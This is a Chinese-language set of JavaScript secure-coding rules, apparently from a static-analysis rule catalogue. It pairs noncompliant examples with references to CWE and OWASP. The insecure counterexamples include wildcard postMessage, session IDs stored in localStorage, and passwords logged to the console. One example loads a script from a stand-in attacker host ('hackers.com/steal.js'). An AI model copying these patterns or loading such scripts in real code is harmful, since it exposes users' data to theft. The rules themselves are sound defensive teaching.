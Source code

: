 # 应谨慎限制跨文档消息传递域

HTML5增加了向其他域提供的文档发送消息的功能。根据规格：

> 作者不应在包含任何机密信息的邮件中的targetOrigin参数中使用通配符关键字（*），否则无法保证邮件仅传递给其预期的收件人。

为了降低将敏感信息发送到从恶意或未知域提供的文档的风险，每次使用Window.postMessage时，此规则都会引发问题。

**不合规的代码示例**
```
var myWindow = document.getElementById('myIFrame').contentWindow;
myWindow.postMessage(message, "*"); // 不合规; how do you know what you loaded in 'myIFrame' is still there?
```

**参考**
  * OWASP Top 10 2017 Category A7 - Cross-Site Scripting (XSS)


# 不应使用调试器语句

调试器语句可以放在过程中的任何位置以暂停执行。使用调试器语句类似于在代码中设置断点。根据定义，必须绝对从源代码中删除此类语句，以防止任何意外行为或增加生产中的攻击漏洞。

**不合规的代码示例**
```
for (i = 1; i<5; i++) {
  // Print i to the Output window.
  Debug.write("loop index is " + i);
  // Wait for user to resume.
  debugger;
}
```

**合规解决方案**
```
for (i = 1; i<5; i++) {
  // Print i to the Output window.
  Debug.write("loop index is " + i);
}
```

**参考**
  * [MITRE, CWE-489](http://cwe.mitre.org/data/definitions/489.html) - Leftover Debug Code
    * OWASP Top 10 2017 Category A3 - Sensitive Data Exposure


# 不应使用 alert(...)

alert(...)以及confirm(...)和prompt(...)对于开发期间的调试很有用，但在生产模式下，这种弹出窗口可能会将敏感信息暴露给攻击者，并且永远不应该显示。

**不合规的代码示例**
```
if(unexpectedCondition) {
  alert("Unexpected Condition");
}
```

**参考**
  * [MITRE, CWE-489](http://cwe.mitre.org/data/definitions/489.html) - Leftover Debug Code
  * OWASP Top 10 2017 Category A3 - Sensitive Data Exposure


# 不应使用Web SQL数据库

Web SQL数据库标准从未见过光明。它首先制定，然后由W3C弃用，并且仅在某些浏览器中实现。（Firefox或IE不支持。）

此外，使用Web SQL数据库会引起安全问题，因为您只需要其名称即可访问此类数据库。

**不合规的代码示例**
```
var db = window.openDatabase("myDb", "1.0", "Personal secrets stored here", 2*1024*1024);  // 不合规
```


# 不应使用本地存储

会话存储和本地存储是HTML 5的功能，允许开发人员轻松存储客户端的兆字节数据，而不是4Kb cookie可以容纳的数据。尽管在客户端加速应用程序非常有用，但以这种方式存储敏感信息可能会很危险，因为默认情况下数据未加密，并且页面上的任何脚本都可以访问它。

使用localStorage和sessionStorageAPI 时，此规则会引发问题。

**不合规的代码示例**
```
localStorage.setItem("login", login); // 不合规
sessionStorage.setItem("sessionId", sessionId); // 不合规
```

**参考**
  * OWASP Top 10 2017 Category A3 - Sensitive Data Exposure
  * [Packet Storm Security](https://dl.packetstormsecurity.net/papers/attack/HTML5AttackVectors_RafayBaloch_UPDATED.pdf) - HTML 5 Modern Day Attack And Defence Vectors


# 不应包含不受信任的内容

从不受信任的来源中包含您网站中的内容可能会将您的用户暴露给攻击者，甚至会破坏您自己的网站。因此，此规则会为每个非相对URL引发问题。

**不合规的代码示例**
```
function include(url) {
  var s = document.createElement("script");
  s.setAttribute("type", "text/javascript");
  s.setAttribute("src", url);
  document.body.appendChild(s);
}
include("http://hackers.com/steal.js")  // 不合规
```

**参考**
  * [MITRE, CWE-829](http://cwe.mitre.org/data/definitions/829) - Inclusion of Functionality from Untrusted Control Sphere
  * OWASP Top 10 2017 Category A1 - Injection
  * [SANS Top 25](https://www.sans.org/top25-software-errors/#cat2) - Risky Resource Management


# 不应使用控制台日志记录

调试语句在开发过程中始终有用。但是将它们包含在生产代码中 - 特别是在运行客户端的代码中 - 并且存在无意中暴露敏感信息，减慢浏览器速度，甚至为某些用户错误输出网站的风险。

```
console.log(password_entered); // 不合规
```

**参考**
  * OWASP Top 10 2017 Category A3 - Sensitive Data Exposure

